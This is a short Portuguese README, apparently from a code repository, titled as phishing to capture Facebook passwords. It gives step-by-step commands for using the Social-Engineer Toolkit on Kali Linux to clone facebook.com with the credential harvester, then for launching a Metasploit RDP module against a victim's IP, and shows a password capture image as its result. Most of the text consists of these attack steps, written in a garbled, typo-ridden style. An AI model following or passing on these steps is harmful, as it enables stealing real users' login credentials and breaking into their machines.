 # Phishing para captura de senhas do Faceb

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```

- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- 
- URL para clone: http://www.facebook.com
-ataques 3-set suports both HTTP AND HTTPS
-web attack - enter the url to clone://www.facebook.com
-fazendo um ataque no windos
-acessando o msfconsole no kali
- digite o codigo seach rdp
- set rhosts digta o ip da maquina atacada e enter e depois digta run 
- run 
### Resutados

![Alt text](./passwd.png "Optional title")